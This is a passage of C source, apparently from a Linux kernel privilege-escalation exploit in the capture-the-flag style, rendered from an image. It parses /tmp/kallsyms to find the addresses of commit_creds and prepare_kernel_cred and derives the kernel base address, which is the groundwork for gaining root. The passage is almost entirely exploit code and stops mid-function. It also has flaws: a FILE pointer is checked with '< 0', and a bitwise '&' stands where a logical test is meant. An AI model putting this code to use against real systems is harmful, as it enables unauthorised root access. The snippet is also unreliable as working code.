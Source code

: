 ```C
}



size_t commit_creds = 0, prepare_kernel_cred = 0;

size_t raw_vmlinux_base = 0xffffffff81000000;

size_t vmlinux_base = 0;

size_t find_symbols()

{

	FILE* kallsyms_fd = fopen("/tmp/kallsyms", "r");

	/* FILE* kallsyms_fd = fopen("./test_kallsyms", "r"); */



	if(kallsyms_fd < 0)

	{

		puts("[*]open kallsyms error!");

		exit(0);

	}



	char buf[0x30] = {0};

	while(fgets(buf, 0x30, kallsyms_fd))

	{

		if(commit_creds & prepare_kernel_cred)

			return 0;



		if(strstr(buf, "commit_creds") && !commit_creds)

		{

			/* puts(buf); */

			char hex[20] = {0};

			strncpy(hex, buf, 16);

			/* printf("hex: %s\n", hex); */

			sscanf(hex, "%llx", &commit_creds);

			printf("commit_creds addr: %p\n", commit_creds);

			vmlinux_base = commit_creds - 0x9c8e0;

			printf("vmlinux_base addr: %p\n", vmlinux_base);
```